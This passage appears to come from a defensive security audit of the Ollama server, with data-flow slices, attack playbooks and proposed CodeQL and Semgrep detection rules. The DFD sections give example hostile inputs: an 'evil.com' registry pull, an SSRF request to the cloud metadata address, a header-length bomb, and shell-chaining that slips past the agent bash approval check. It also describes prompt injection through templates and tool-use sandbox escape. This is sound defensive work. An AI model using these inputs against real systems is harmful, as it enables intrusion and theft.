| Legacy `OLLAMA_SIGNIN` / auth-token in `req.Model` of `/api/pull` | indirectly passes into registry auth header | — |

---

## DFD / CFD Slices

Each slice is written as `source → parser → critical op → sink` plus the nearest known-vuln / bypass and the spec/RFC involved.

### DFD-1: HTTP /api/pull → Registry → Disk Write (CVE-2024-37032 core)

```mermaid
flowchart LR
    A[Attacker POSTs {model:'registry.evil.com/x/y:z'}] -->|ShouldBindJSON| B[PullHandler routes.go:914]
    B --> C[parseNormalizePullModelRef model_resolver.go:57]
    C --> D[PullModel images.go]
    D --> E[pullModelManifest HTTP GET <registry>/v2/]
    E -->|manifest JSON| F[hasTensorLayers]
    F -->|yes| G[pullWithTransfer images.go:721 - FAST PATH]
    F -->|no| H[downloadBlob + verifyBlob legacy]
    G --> I[transfer.Download → os.OpenFile destDir + layer.Digest]
    H --> J[manifest.BlobsPath digest validation]
    I -.->|SKIPS BlobsPath validation!| K[Write arbitrary bytes to disk]
    J --> K
```
**Known bypass**: `archon/bypass-analysis/cve-2024-37032-path-traversal.md` — tensor-layers fast path (`hasTensorLayers==true`) skips `manifest.BlobsPath` validation entirely.
**Sink**: arbitrary file write under `$OLLAMA_MODELS`, resumable across restarts.
**Specs involved**: OCI Distribution Spec v1.0, RFC 7234 (Content-Range).

### DFD-2: HTTP /api/blobs/:digest → Unauthenticated Blob Upload → GGUF Parser

```mermaid
flowchart LR
    A[Browser JS via DNS rebind OR localhost attacker] -->|POST /api/blobs/sha256-abc...| B[CreateBlobHandler routes.go:1508]
    B --> C[manifest.BlobsPath digest regex only]
    C --> D[os.Create $OLLAMA_MODELS/blobs/sha256-abc...]
    D --> E[stream client body → disk]
    E --> F[subsequent /api/generate model load]
    F --> G[fs/ggml/gguf.go::Decode OR fs/gguf/gguf.go::Open]
    G --> H[C.llama_model_load_from_file cgo - llama.go:308]
```
**Known bypass**: `archon/bypass-analysis/9d902d63-gguf-tensor.md` — tensorEnd uint64 overflow still bypassable.
**Known bypass 2**: `readString` uint64 length unbounded → CVE-2025-0315 class.
**Specs involved**: GGUF v2/v3 (no formal RFC; ggerganov/ggml repo).

### DFD-3: HTTP /api/create → Local File Ingestion → Symlink Escape

```mermaid
flowchart LR
    A[POST /api/create with files map] --> B[CreateHandler create.go:46]
    B -->|fs.ValidPath on keys| C[r.Files map]
    C --> D[parseFromFile / parseFromZipFile]
    D --> E[manifest.BlobsPath digest]
    E --> F[filesForModel parser/parser.go + EvalSymlinks check]
    F -.->|for the x/create.CreateSafetensorsModel path| G[no EvalSymlinks - UNFIXED]
    G --> H[read symlinked file outside dir]
    H --> I[write to blob store - RELOCATED ZipSlip/symlink escape]
```
**Known bypass**: `archon/bypass-analysis/d931ee8f-symlink.md` — `x/create/create.go`, `x/create/imagegen.go` still missing `EvalSymlinks`.
**Specs involved**: POSIX symlink semantics; Windows `\\?\` long path.

### DFD-4: Modelfile TEMPLATE → text/template → LLM Prompt / DoS

```mermaid
flowchart LR
    A[Attacker uploads Modelfile with crafted TEMPLATE] --> B[parser.Modelfile parser.go]
    B --> C[template.Parse template.go:145]
    C --> D[t.Vars() → Identifiers walk]
    D -.->|nil pipeline before fix 1ed2881e| E[panic crash]
    C --> F[t.Execute during chat completion]
    F --> G[text/template execution with prompt injection payload]
    G --> H[final prompt fed to llama model]
```
**Known bypass**: `archon/bypass-analysis/1ed2881e-template-crash.md` — verified fixed.
**Bypass surface**: no template size cap; no execution timeout; `text/template` `missingkey=zero` only mitigates one class.

### DFD-5: LLM Output → Agent Tool Call → bash


**Known bypass**: `archon/bypass-analysis/44179b7e-agent-path.md` — verified fixed for `../` escape.
**Remaining bypasses**: `;`, `&&`, `||`, backticks, `$()`, multi-line `\n` all pass through unchallenged once prefix matches. `sed` is on the safe-commands list but accepts `-i` (in-place edit → arbitrary file write).

### DFD-6: Multimodal Image → cgo mtmd helper → C heap

```mermaid
flowchart LR
    A[base64 image in ChatRequest.Messages[].Images] --> B[routes.go:435 images slice]
    B --> C[prompt construction chat flow]
    C --> D[runner HTTP POST /completion]
    D --> E[llama.MultimodalTokenize llama.go:556]
    E --> F[C.mtmd_helper_bitmap_init_from_buf cgo call with raw pointer]
    F --> G[C++ image decoder - libwebp/libjpeg/libpng]
```
**Known bug**: CVE-2025-15514 (null-deref in `mtmd_helper_bitmap_init_from_buf`).
**Attack**: single malformed image = unauthenticated runner crash; `OLLAMA_HOST` addr permits this if rebinding succeeds.
**Compound**: no size cap on `Images: []string` entries — 100 × 1 GB base64 → OOM.

### DFD-7: WWW-Authenticate challenge → Token Leak to Attacker Realm


**Known fix**: `7601f0e9` adds realm-host-match check — **only in server/auth.go**.
**Residual risk**: `api/client.go:88` has its own `getAuthorizationToken` — audit parity required.

### DFD-8: zstd-encoded OpenAI v1 Body → Decompression → Handler


**Attack surface**: unauthenticated 20MB decompressed body burn per request. No per-IP throttle. `http.MaxBytesReader` only caps bytes after decompression starts — zstd **compression ratio** may amplify input.

### DFD-9: POST /api/experimental/web_fetch → Cloud Proxy → SSRF Through ollama.com

```mermaid
flowchart LR
    A[Client POST /api/experimental/web_fetch {url:'http://169.254.169.254/meta-data/'}] --> B[webExperimentalProxyHandler routes.go:1966]
    B --> C[readRequestBody - NO URL VALIDATION routes.go:1967]
    C --> D[proxyCloudRequestWithPath → ollama.com /api/web_fetch]
    D --> E[ollama.com fetches URL → returns content]
    E --> F[body copied back into client response]
```
**Evidence**: `server/routes.go:1962 WebFetchExperimentalHandler` → `webExperimentalProxyHandler` → no URL validation (commit `61086083`, flagged Phase 1). Same in local `x/tools/webfetch.go:85` (`url.Parse` only).
**Impact**: cloud-side SSRF surface + local tool misbehaviour; potential for `file://` / `gopher://` if cloud doesn't filter.

### DFD-10: Safetensors Header Read → Unbounded Allocation


**Attack**: single .safetensors with `n=0x7FFFFFFFFFFFFFFF` prefix → `make` panics or OOMs before `io.CopyN` fails. Same bug class as CVE-2025-0315. No prior fix observed.

### DFD-11: /v1/audio/transcriptions Multipart Audio → Model Load → cgo


**Unaudited**: audio pipeline parity with image DoS class; same null-deref class possible in C audio decoder.

### DFD-12: Partial File Resume → HTTP 206 Content-Range Mismatch → Integrity Skip


**Known bypass**: `archon/bypass-analysis/2aee6c17-verifyBlob.md` Finding 4 — HTTP 206 Content-Range not validated.
**Specs involved**: RFC 7233 (Range Requests), RFC 7234 (Cache semantics).

### DFD-13: Gzip-encoded Registry Response → io.ReadAll Memory Exhaustion


**Historical CVE**: CVE-2024-12886 (gzip bomb). `server/auth.go:81` still has `io.ReadAll(response.Body)` with no bound. Assumed patched elsewhere, **unverified in this call site.**

### DFD-14: `$EDITOR` / `$VISUAL` → exec.Command with Env Binary Name


**Commit**: `0aaf6119`. Attack requires environment-variable injection (e.g. via SSH client config on shared system, or a malicious `.envrc` in a pulled repo). Low severity standalone; high when chained with an LLM-agent that can write `.envrc`.

### DFD-15: CLI `ollama create --experimental` → Directory Walk → Convert

```mermaid
flowchart LR
    A[CLI user points at attacker tarball content] --> B[cmd.CreateHandler cmd.go:148]
    B --> C[x/create.CreateSafetensorsModel]
    C --> D[directory walk - NO ROOT CONFINEMENT]
    D --> E[open tokenizer, safetensors, config.json by concat]
    E --> F[read+hash+write to blob store]
```
**Same vulnerability class** as DFD-3 / `d931ee8f` relocation.

---

## High-Risk DFD Slices — Chamber Clusters (Phase 8)

4 threat clusters identified by shared trust boundary. Each maps to a single Phase 8 chamber team.

### Cluster A — Registry Ingress / Blob Path Layer (B3 → B5)
Slices: DFD-1 (pull path traversal), DFD-2 (blob upload), DFD-7 (WWW-Authenticate), DFD-12 (Range bypass), DFD-13 (gzip bomb).
**Shared boundary**: remote HTTP registry response is trusted after digest regex. **Shared defense**: `manifest.BlobsPath` regex + `verifyBlob`/streaming hash.
**Phase 8 team focus**: unify the two `getAuthorizationToken` implementations (`server/auth.go`, `api/client.go`); add `io.LimitReader` wherever registry responses are `io.ReadAll`-ed; add `manifest.BlobsPath` call inside `pullWithTransfer`; validate HTTP 206 Content-Range matches requested range.

### Cluster B — Modelfile / Safetensors / GGUF Parser Chain (B6)
Slices: DFD-2 (GGUF decode), DFD-3 (symlink in create), DFD-4 (template DoS), DFD-10 (safetensors header), DFD-15 (x/create root confinement).
**Shared boundary**: once on disk or in a directory, file is "trusted" and parsed with no memory caps.
**Phase 8 team focus**: `io.LimitReader` on every `readString`/`readArray` whose length is attacker-controlled; `os.OpenRoot` wrapper shared by `parser.filesForModel` and `x/create/*`; integer-overflow checks on `dims*shape`, `n_tensors*sizeof`, and tensor offset arithmetic.

### Cluster C — Inference Request → Runner → cgo (B7 → B8)
Slices: DFD-6 (multimodal image), DFD-11 (audio), DFD-8 (zstd), DFD-14 (KV-cache params via OLLAMA_KV_CACHE_TYPE).
**Shared boundary**: cgo accepts Go-computed `(ptr, length)` pairs with minimal sanity checks; image/audio bytes pass untouched.
**Phase 8 team focus**: enumerate every `C.*` call in `llama/llama.go`, `x/mlxrunner/mlx/`, `ml/backend/ggml/ggml.go`; confirm each length parameter is bounded; add Go-side image size cap; per-request rate limit before zstd.

### Cluster D — Privilege Transitions (B9–B11)
Slices: DFD-5 (agent bash), DFD-9 (web_fetch SSRF), DFD-14 ($EDITOR), cloud-proxy-auth (B10), tar/zip extraction (B11).
**Shared boundary**: LLM output or environment variable drives a privileged action (exec, HTTP egress, extract).
**Phase 8 team focus**: rethink approval as *command parse* not *prefix match*; scheme/host allowlist on web_fetch; enforce `filepath.IsLocal` on tar/zip extract centrally (`verifyExtractedBundle` as a shared helper); never read env-controlled binary names without explicit `exec.LookPath` of an allowlist.

---

## High-Risk CFD Slices (Control-flow privilege transitions)

```
CFD-P1: HTTP Request → Auth Decision (server-side)
  routes.go gin.Default()
  ↓ cors.New(corsConfig)                    [CORS - no credentials required]
  ↓ allowedHostsMiddleware(s.addr)          [DNS-rebind gate - bypassable if listening on 0.0.0.0]
  ↓ (optional) cloudPassthroughMiddleware   [model-name routing decision]
  ↓ handler                                 [no caller authentication at all]
```
**No authentication layer** between CORS and the handler. Any local browser with a cooperative origin can invoke everything. The _only_ boundary is CORS + allowedHosts.

```
CFD-P2: /api/create → Blob Write Privilege
  CreateHandler (unauthenticated)
  ↓ ShouldBindJSON
  ↓ fs.ValidPath(filename) + digest regex      [validates identifier, not content]
  ↓ getExistingName(name)                      [ensures overwrite fidelity]
  ↓ parseFromModel(ctx, fromName)              [recurses into registry pull if missing]
  ↓ createBlob(...) / parseFromFile            [writes on disk with process privs]
```

```
CFD-P3: Cloud Proxy Sign-and-Forward
  /v1/* request
  ↓ cloudPassthroughMiddleware
  ↓ signCloudProxyRequest(ctx, outReq)         [ed25519 via ~/.ollama/id_ed25519]
  ↓ http.DefaultClient.Do                       [no per-destination allowlist beyond cloudProxyBaseURL]
  ↓ proxy body back to client                   [response tainted into client without further auth]
```

```
CFD-P4: Runner Load Model
  runner JSON POST /load {model: path, projectors: [..], adapters: [..]}
  ↓ llama.LoadModelFromFile (llama.go:264)
  ↓ C.CString(modelPath) passed directly into C.llama_model_load_from_file
  ↓ model parse: mmap → ggml tensor walk → potentially cross-platform heap
```
Runner trusts the parent process completely — but the parent process trusts attacker bytes.

```
CFD-P5: Agent Tool Execute
  chat turn → LLM tool_calls → agent loop
  ↓ resolveTool(name)
  ↓ approval decision (AutoAllowCommands OR extractBashPrefix matched OR user y/n)
  ↓ BashTool.Execute → exec.CommandContext("bash","-c", cmd)
```
Approval state is per-session. No revocation path during long-running sessions.

```
CFD-P6: Registry Token Round-trip
  makeRequestWithRetry initial 401
  ↓ parseAuthChallenge (Www-Authenticate)
  ↓ registryChallenge.URL() composes realm+service+scope+ts+nonce
  ↓ realmHost == originalHost check            [ADDED 7601f0e9 - scope: server/auth.go only]
  ↓ auth.Sign local ed25519 key
  ↓ HTTP GET realmURL with Bearer+signed
  ↓ io.ReadAll body                            [NO SIZE CAP]
  ↓ json.Unmarshal &TokenResponse              [trust the token]
  ↓ retry original request with Authorization: Bearer <token>
```

```
CFD-P7: Multimodal Chat Pipeline
  /api/chat
  ↓ chatPrompt (truncation, image attachment)
  ↓ runner.Completion(...)
  ↓ runner/ollamarunner or runner/llamarunner prepare batch
  ↓ llama.NewBatch + llama.MultimodalTokenize
  ↓ C.mtmd_helper_bitmap_init_from_buf (cgo; raw byte pointer)
  ↓ tensor decode → embed → Batch.Add → Decode
```

---

## Domain Attack Research

Mode A (library-as-target) applies for ggml/llama.cpp bindings; Mode B (library-as-consumer) applies for template/openssh/gin/zstd/gguf; Mode C (domain-specific) applies for LLM-serving, OCI distribution, HTTP client/server, DNS rebinding, TLS, multimodal, tool-use sandboxing, gzip/zstd, cgo.

### LLM-Serving Attack Playbook

| Attack class | Affects here | File / fn | Detection target |
|--------------|--------------|-----------|------------------|
| **Prompt injection (system-prompt override via chat template)** | `template.Parse` accepts arbitrary TEMPLATE; Modelfile allows override; gen-prompt concatenates attacker-controlled `req.System` and tool outputs | `server/prompt.go`, `template/template.go` | semgrep: any template.Execute whose template source is a user-uploaded blob |
| **Model poisoning via registry** | `pullModelManifest` fetches from any host; `Insecure=true` permits plain HTTP | `server/images.go:615` | codeql: RemoteFlowSource → `os.WriteFile` in blob path |
| **GGUF parser exploitation** — integer overflow, OOB read/write, unbounded allocation, divide-by-zero | Numerous CVEs (CVE-2024-39720/0312/0315/0317/12055/8063/66959/66960); `9d902d63` fixed only one | `fs/ggml/gguf.go`, `fs/gguf/gguf.go` | codeql: binary.Read of uint64 flowing to make([]T, n) |
| **Safetensors header bomb** | `convert/reader_safetensors.go:36-38` | unbounded `n` | codeql: binary.Read int64 flowing to io.CopyN |
| **GGUF metadata SSTI / chat_template Jinja-ish** | `general.chat_template` KV becomes `template.Parse` input via `template.Named + levenshtein` → fallback | `template/template.go:72` + `server/model.go:82` | audit: can Modelfile TEMPLATE contain `{{}}` blocks that get executed? YES via text/template |
| **GPU memory disclosure via reused KV cache** | `/api/generate` shares KV cache per session | `kvcache/` | codeql: KV cache not cleared between callers of different ownership |
| **Sandbox escape via tool-use** | agent bash (DFD-5) + web_fetch (DFD-9) | `x/tools/*.go` | semgrep: exec.CommandContext with any non-constant arg after prefix-approval |
| **Tokenizer OOB (CVE-2025-49847)** | `tokenizer/*.go` may have same signed/unsigned pitfalls | grep: `int32` narrowing from byte length |
| **Model-name confusion / typosquatting** | `parseAndValidateModelRef` accepts any registry host; user may be tricked into pulling `evil.com/llama3` | `server/model_resolver.go` | manual: enforce default registry allowlist? currently *no* allowlist |
| **Lora / adapter injection** | `ApplyLoraFromFile` takes path direct to C | `llama/llama.go:344` | audit: parent digest-verifies path?? |

### HTTP-API Attack Playbook

| Attack class | Affects here | File / fn |
|--------------|--------------|-----------|
| **DNS rebinding** | Host header + Origin/CORS | `server/routes.go:1608` `allowedHostsMiddleware` — **bypassable when listening on 0.0.0.0** |
| **Host-header confusion / cache poisoning** | `c.Request.Host` used in `allowedHost` | low risk (no caching layer) |
| **CSRF** | CORS wildcard `app://*`, `file://*` | `server/routes.go:1672` — any Electron/Tauri app with matching origin can drive the API |
| **SSRF via /api/pull** | registry URL from request body | CVE-2026-5530 |
| **SSRF via /api/experimental/web_fetch** | URL from body proxied to ollama.com | DFD-9 |
| **Local file exfiltration via /v1/models/:model error path** | `ShowHandler` discloses paths | CVE-2024-39719 lineage |
| **Request smuggling via middleware rewriting model field** | `replaceJSONModelField` re-marshals body | low risk; gin uses stdlib HTTP/1.1 |
| **HTTP/2 rapid reset** | stdlib | covered by `bb8464c0` dependency update |
| **Compression DoS (zstd/gzip bombs)** | `cloudPassthroughMiddleware`, `getAuthorizationToken` | 20 MB cap OK for cloud proxy; **no cap** in registry auth path |
| **Zero-length request / slow-loris** | gin with stdlib | — |
| **Auth cross-domain token leak** | `getAuthorizationToken` | fixed server-side in `7601f0e9`, audit `api/client.go` parity |
| **Base64 image DoS** | `req.Images[]` unbounded per request | — |

### Native-Parser Attack Playbook (cgo / ggml / mtmd / mlx)

| Attack class | Affects here | Evidence |
|--------------|--------------|----------|
| **Integer overflow in `(ne-1)*nb`** | ggml tensor calc | CVE-2026-33298 (llama.cpp upstream); patch-check: does vendored tree have b7824? |
| **Heap buffer overflow via gguf_fread_str** | vendored llama.cpp | TALOS-2024-1913; patch-check |
| **n_dims > GGML_MAX_DIMS (=4) not enforced on Go side** | `convert/reader*`, `fs/ggml/gguf.go` | semgrep: accepting `dims: uint32` without `if dims > 4` |
| **Cumulative tensor size overflow** | `ggml.tensorOffset + tensor.Size()` | `fs/ggml/gguf.go:259` — Size() is `uint64` multiplication, still can wrap |
| **Signed/unsigned narrowing in token_to_piece** | vocabulary | CVE-2025-49847 |
| **KV-cache negative n_discard** | llama_server upstream CVE-2026-21869 | ollama re-implements cache in Go (`kvcache/`) — audit for same class |
| **Gzip bomb in ggml_init_from_file when file is .gz** | llama.cpp does not auto-decompress; ollama unpacks before passing path | low risk |
| **Billion-laughs / XML-style on tokenizer.json** | `tokenizer/*` uses Go `encoding/json` — no entity expansion | — |
| **SentencePiece protobuf nesting** | `convert/sentencepiece_model.proto` | untested; proto unmarshal is linear in nesting |
| **Crafted image bitmap → libwebp / libpng** | `MultimodalTokenize` → C | CVE-2025-15514; also depends on vendored libwebp version |

### Specific Specs / RFCs Referenced (for Phase 6 spec-diff)

| Spec | Where used | Known gap |
|------|------------|-----------|
| **OCI Distribution Spec v1.0 / v1.1** | `server/images.go` pull/push, `server/internal/client/ollama/registry.go`, `x/imagegen/transfer/transfer.go` | `pullWithTransfer` does not follow spec's digest-path canonicalization (Phase 2 bypass) |
| **OCI Image Format Spec v1.x** | manifest parsing | no content-type strict-match enforced |
| **RFC 6750 — Bearer Token** | `getAuthorizationToken` | realm host check (fix `7601f0e9`); duplicated incorrectly in `api/client.go` |
| **RFC 7233 — HTTP Range Requests** | `server/download.go` partial resume | **Content-Range not validated** (bypass Finding 4) |
| **RFC 7234 — HTTP Caching** | blob download retries | — |
| **RFC 6265 — HTTP Cookies** | none | Ollama does not use cookies; all auth is Bearer |
| **RFC 5890-5892 — IDN / Punycode** | registry hostname in model ref | not normalized; homograph attacks possible |
| **RFC 8089 — file:// URI scheme** | web_fetch receives arbitrary URL | **no scheme allowlist** in `x/tools/webfetch.go:85` |
| **GGUF format v2/v3** (ggerganov/ggml) | `fs/ggml/gguf.go`, `fs/gguf/gguf.go` | Integer types reduced to host Go integers; uint64→int conversion in `readString` (`fs/gguf/gguf.go:194`) |
| **safetensors format** (huggingface/safetensors) | `convert/reader_safetensors.go` | header length attacker-controlled (DFD-10) |
| **PyTorch pickle / .bin format** | `convert/reader_torch.go` | pickle classically unsafe |
| **ed25519 / OpenSSH wire format** | `auth/auth.go` via `golang.org/x/crypto/ssh` | public key parts[1] parse (`auth.go:73`) does not validate prefix — malformed pubkey comment passes |
| **zstd frame format / RFC 8878** | `cloud_proxy.go` middleware | OK (klauspost/compress); 8 MB decoder-max-memory is per-frame, not per-request |
| **CBOR / protobuf** | sentencepiece only | — |
| **WebP / JPEG / PNG** (IETF + ISO) | `golang.org/x/image/webp` for sniff; rest in native C | CVE-2025-15514 |

### Phase 6 — Spec Gap Candidates (to be chased in spec-diff phase)

1. **OCI Distribution `name` normalization** — ollama's `model.ParseName` vs OCI's spec.
2. **OCI Distribution `digest` algorithm-agility** — `manifest.BlobsPath` hard-codes `sha256` but OCI permits sha512, etc. — silent mismatch.
3. **HTTP `Range` Content-Range RFC 7233 §4.2** — missing validation (confirmed Phase 2).
4. **GGUF v3 alignment** — `general.alignment` read from attacker KV; used in offset arithmetic without upper bound.
5. **safetensors spec** — spec says header length is little-endian uint64; ollama reads int64 and multiplies unchecked.
6. **Bearer realm-host spec (RFC 6750)** — `api/client.go` client parity.
7. **Multipart/form-data audio spec** — audio transcription parser not fuzzed.

---

## Phase 4 SAST Hints

### Custom CodeQL Queries to Write

1. **`go/ollama/unbounded-readall-on-remote-response`**  
   Source: `RemoteFlowSource` on `net/http.Response.Body`  
   Sink: `io.ReadAll` or `io/ioutil.ReadAll`  
   **Known positive**: `server/auth.go:81` (get token response), `server/cloud_proxy.go:294` (`readRequestBody`), `server/routes.go:1967` (web_fetch proxy), `x/tools/webfetch.go:135`.

2. **`go/ollama/length-from-binary-read-to-make`**  
   Source: `binary.Read[uint32|uint64|int64]` on `*os.File` or `net/http.Response.Body`  
   Sink: `make([]T, n)` or `bytes.NewBuffer(make(...))` or `io.CopyN(..., n)` or `io.ReadFull(f, buf[:n])`  
   **Known positive**: `fs/gguf/gguf.go:189-195` (`readString`), `convert/reader_safetensors.go:36-40`, `fs/ggml/gguf.go:readGGUFString`.

3. **`go/ollama/cgo-call-with-go-computed-length`**  
   Source: any `len(slice)` or Go integer arithmetic  
   Sink: `C.size_t(x)` or `C.int(x)` or raw pointer `(*C.uchar)(unsafe.Pointer(&data[0]))` where `data` originates from user input  
   **Known positive**: `llama/llama.go:566` (image data → mtmd), `llama/llama.go:308` (modelPath via CString).

4. **`go/ollama/digest-path-no-canonicalization`**  
   Source: `manifest.Layer.Digest` field from remote manifest  
   Sink: `os.OpenFile` or `os.Create` where path = `<dir> + digest` without `manifest.BlobsPath()` call  
   **Known positive**: `server/images.go:721+` `pullWithTransfer` → `x/imagegen/transfer/download.go`.

5. **`go/ollama/http-handler-no-auth`**  
   Source: all `gin.HandlerFunc` registrations in `GenerateRoutes`  
   Predicate: no call to `getAuthorizationToken`, no `c.GetHeader("Authorization")` check  
   Report list for human review (CVE-2025-63389 baseline).

6. **`go/ollama/exec-with-user-string`**  
   Source: `*gin.Context.ShouldBindJSON` → struct field, or LLM tool-call args map  
   Sink: `exec.Command`, `exec.CommandContext`, `os/exec.CommandContext` where any arg is non-literal.  
   **Known positive**: `x/tools/bash.go:64`, `cmd/cmd.go` `$EDITOR` path (commit `0aaf6119`).

7. **`go/ollama/template-execute-user-src`**  
   Source: file read from `$OLLAMA_MODELS/blobs/` OR request-body JSON field  
   Sink: `text/template.Template.Parse` / `.Execute` / `.ExecuteTemplate`  
   Purpose: catch DoS and future SSTI.

8. **`go/ollama/archive-extract-no-islocal`**  
   Sink: `os.Create(filepath.Join(destDir, <taint>))` where `<taint>` is from `*zip.File.Name` or `*tar.Header.Name`  
   Guard expected: `filepath.IsLocal` or `filepath.Rel` + `strings.HasPrefix`.  
   **Known positive**: CVE-2024-45436 relocation targets in `cmd/launch/openclaw.go`, `server/internal/manifest/*`.

9. **`go/ollama/symlink-read-without-evalsymlinks`**  
   Source: `filepath.Glob` / `filepath.Walk` / `fs.WalkDir`  
   Sink: `os.Open` / `os.ReadFile` of a globbed name **without** a preceding `filepath.EvalSymlinks` + `filepath.IsLocal` dual-check.  
   **Known positive**: `x/create/create.go`, `x/create/imagegen.go`.

10. **`go/ollama/cloud-passthrough-host-not-allowlisted`**  
    Source: `envconfig.Var("OLLAMA_CLOUD_BASE_URL")` + `cloudProxyBaseURL` string var  
    Sink: `http.NewRequestWithContext` using that string as base.  
    Ensure `cloudProxySigningHost` is always validated against a hardcoded allowlist.

### Custom Semgrep Rules to Add

```yaml
# rule: any http handler that reads user JSON without a size limit
- id: ollama-shouldbindjson-no-maxbytes
  pattern-either:
    - pattern: |
        func ($C *gin.Context) { ... $C.ShouldBindJSON(...) ... }
    - pattern: |
        func ... { ... io.ReadAll($R.Body) ... }
  pattern-not-inside: |
    $R.Body = http.MaxBytesReader(...)
  severity: HIGH

# rule: cgo call that takes a Go-side computed length without bound check
- id: ollama-cgo-length-unchecked
  pattern-either:
    - pattern: C.$FUNC(..., C.size_t(len($X)), ...)
    - pattern: C.$FUNC(..., (*C.uchar)(unsafe.Pointer(&$X[0])), C.size_t(len($X)), ...)
  message: cgo call passes Go-computed length; ensure $X has size cap
  severity: MEDIUM

# rule: binary.Read length then make/copy-n
- id: ollama-length-prefix-no-sanity
  patterns:
    - pattern: |
        binary.Read($R, $ORDER, &$N)
        ...
        $BUF := make([]byte, $N)
  pattern-not:
    - pattern-inside: |
        if $N < ... { ... }
  severity: HIGH

# rule: exec.CommandContext on non-constant string arg
- id: ollama-exec-nonconstant
  pattern-either:
    - pattern: exec.CommandContext($CTX, "bash", "-c", $STR)
    - pattern: exec.Command($BIN, $ARGS...)
  pattern-not: exec.Command("...", "...")
  severity: HIGH

# rule: http.Client.Do without per-request timeout
- id: ollama-http-no-timeout
  pattern: |
    $CLIENT.Do($REQ)
  pattern-not-inside: |
    $CLIENT = &http.Client{..., Timeout: ..., ...}
  severity: MEDIUM

# rule: filepath.Join destDir + user-supplied name without filepath.IsLocal
- id: ollama-join-no-islocal
  patterns:
    - pattern: os.Create(filepath.Join($DIR, $NAME))
  pattern-not-inside: |
    if filepath.IsLocal($NAME) { ... }
  severity: HIGH

# rule: template.Parse of user-controlled string
- id: ollama-template-user-src
  pattern: template.New($X).Parse($USERSRC)
  severity: MEDIUM

# rule: url.Parse accept without scheme check (for web_fetch-like sinks)
- id: ollama-url-parse-no-scheme-check
  patterns:
    - pattern: url.Parse($U)
    - pattern-not-inside: |
        if $URL.Scheme != "http" && $URL.Scheme != "https" { ... }
  severity: MEDIUM
  paths:
    include:
      - x/tools/
      - server/cloud_proxy.go

# rule: ShouldBindJSON followed by no nil check on required fields
- id: ollama-json-bind-no-required-check
  # catch cases like DFD-2 CreateBlobHandler where digest is validated by regex but everything else is trusted
  severity: LOW
```

### Custom Go Analyzer Targets (to feed `go vet` style)

- **Shadow variable check** for `err` inside the manifest/download retry loops; Phase 2 Finding 3 (`2aee6c17` stall retry) depended on error state being clobbered.
- **`sync.Map` key non-confusion** (`blobDownloadManager`): ensure `Digest` is canonicalized before store/load.
- **runtime.Pinner scope** in `llama/llama.go` — audit every cgo call that uses a `runtime.Pinner` to ensure the pin outlives the C call.

---

## Phase 5 Probe Targets

Recommended chamber groupings (large → small, with rough LOC weight).

### Group A — Registry / Download / Blob Store (≈ 4200 LOC, very high risk)
- `server/images.go` (1048)
- `server/download.go` (509)
- `server/upload.go` (405)
- `server/fixblobs.go` + `server/model.go` (~400)
- `server/internal/registry/server.go` (417)
- `server/internal/client/ollama/registry.go` (1197)
- `manifest/*` (469)
- `x/imagegen/transfer/*` (1060)
**Probe focus**: re-verify `pullWithTransfer` canonicalization, HTTP 206 Content-Range, streaming-hash on all error paths, race between concurrent pulls of same digest.

### Group B — Parser / Convert / GGUF / Template (≈ 7000 LOC, high risk, large)
- `fs/ggml/gguf.go` (689)
- `fs/ggml/ggml.go` (921)
- `fs/gguf/*` (~1000)
- `convert/*` (~4000 across 40 files)
- `template/template.go` (646)
- `parser/parser.go` (671)
- `tokenizer/*` (~2000)
**Probe focus**: length-prefix → allocation; symlink/root confinement; nil-node on `text/template`; sentencepiece protobuf nesting.

### Group C — HTTP Handlers / Middleware / Auth (≈ 5500 LOC, high risk)
- `server/routes.go` (2780)
- `server/create.go` (888)
- `server/cloud_proxy.go` (568)
- `server/auth.go` (100)
- `middleware/openai.go` (790)
- `middleware/anthropic.go` (955)
- `openai/openai.go` + `responses.go` (~2300)
**Probe focus**: any handler that does `io.ReadAll` without cap; CORS+allowedHosts bypass combinations; `/v1/models/:model` cloud-passthrough auth; zstd decompression CPU fan-out.

### Group D — Runner / cgo / Native Boundary (≈ 4500 LOC, highest blast radius)
- `runner/ollamarunner/runner.go` (1459)
- `runner/llamarunner/runner.go` (1008)
- `llama/llama.go` (~800)
- `ml/backend/ggml/ggml.go` (~300)
- `x/mlxrunner/*` (~3500)
**Probe focus**: every `C.*` call; Go length → C size_t; `runtime.Pinner` lifetime; subprocess flag injection from parent.

### Group E — Agent / Tools / Privilege Transitions (≈ 2000 LOC, high impact)
- `x/agent/approval.go` (1125)
- `x/tools/*` (~540)
- `cmd/cmd.go` — `$EDITOR`/`$VISUAL` path + CLI-to-API pivots (≈ 300 LOC relevant)
- `cmd/launch/openclaw.go` tar extraction
**Probe focus**: bash command parse vs prefix match; web_fetch scheme allowlist; tar/zip IsLocal uniformity.

### Group F — Experimental / x/create / Imagegen (≈ 2500 LOC, medium-high risk, small enough for one team)
